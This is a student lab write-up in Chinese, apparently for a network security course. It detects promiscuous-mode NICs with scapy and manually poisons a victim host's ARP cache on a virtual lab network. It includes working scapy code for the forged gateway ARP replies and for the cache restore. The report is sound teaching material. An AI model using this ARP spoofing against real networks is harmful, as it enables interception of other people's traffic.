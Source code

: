# 网络监听

## 网络拓扑

![](imgs/map.png)

如图所示网络中的节点基本信息如下：

* 攻击者主机
    * `08:00:27:f1:cd:c3` / `eth1`
    * `172.16.111.101`
* 受害者主机
    * `08:00:27:c8:63:67` / `eth1`
    * `172.16.111.107`
* 网关
    * `08:00:27:80:25:2e` / `enp0s9` 
    * `172.16.111.1`

## 实验准备

### 安装 scapy

在攻击者主机上提前安装好 [scapy](https://scapy.net/) 。

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

![](imgs/scapy_install.png)

## 实验一：检测局域网中的异常终端

```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show eth1
```
(实验分两次做的，图片清晰度有些不一样)

![](imgs/promiscOff.png)

```bash
# 在攻击者主机上开启 scapy，不提升权限有些操作无法进行
sudo scapy
```
![](imgs/welcome.png)
```bash
# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("172.16.111.107")
```
![](imgs/1promsiping.png)
```bash
# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth1 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth1
```
![](imgs/promiscOn.png)

```bash
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("172.16.111.107")
```
![](imgs/2promsiping.png)
```bash
# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```

查阅资料，promiscping 命令会发送 ARP who-has 请求。

> - 混杂模式 接收所有经过网卡的数据包，包括不是发给本机的包，即不验证MAC地址
> - 普通模式 网卡只接收发给本机的包

可以看出在混杂模式下，受害者主机才能收到这个数据包。

在受害者主机上开启Wireshark抓包，也验证了这个问题。发送的包并没有指定目的主机的MAC地址，所以普通模式下发送不会成功

![](imgs/addon.PNG)

## 实验二：手工单步“毒化”目标主机的 ARP 缓存

### 获取当前局域网的网关 MAC 地址
```python
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="192.168.0.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()
```
![](imgs/arpbroadcast.png)
```bash
# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc
```
![](imgs/mac.png)
### 伪造网关的 ARP 响应包
```bash
# 准备发送给受害者主机
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
# 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
arpspoofed = Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.107", hwdst="08:00:27:f1:cd:c3")

# 发送上述伪造的 ARP 响应数据包到受害者主机
sendp(arpspoofed)
```
![](imgs/arpspoofed.PNG)


此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```bash
ip neigh
```
![](imgs/success.png)
### 恢复受害者主机的 ARP 缓存记录
```python
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:80:25:2e", pdst="172.16.111.107", hwdst="08:00:27:c8:63:67")
sendp(restorepkt1, count=100, inter=0.2)
```
![](imgs/restore.PNG)


此时在受害者主机上准备“刷新”网关 ARP 记录。

```bash
## 在受害者主机上尝试 ping 网关
ping 172.16.111.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```
![](imgs/ping_gateway.PNG)
![](imgs/ac.PNG) 
## 参考
- [黄大的课件](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
- [使用scapy模块编写ARP欺骗脚本 - OSChina](https://my.oschina.net/u/4580309/blog/4358219)